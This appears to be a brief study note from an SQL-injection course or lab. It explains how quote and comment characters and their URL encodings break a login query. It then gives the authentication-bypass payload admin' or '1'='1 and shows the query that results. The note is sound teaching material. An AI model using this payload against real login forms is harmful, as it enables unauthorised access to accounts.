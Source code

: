# Subverting Query Logic

SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';

Payload	URL Encoded
'	%27
"	%22
#	%23
;	%3B
)	%29

SELECT * FROM logins WHERE username=''' AND password = 'something';

admin' or '1'='1

SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';



## LAB

'	%27
"	%22
#	%23
;	%3B
)	%29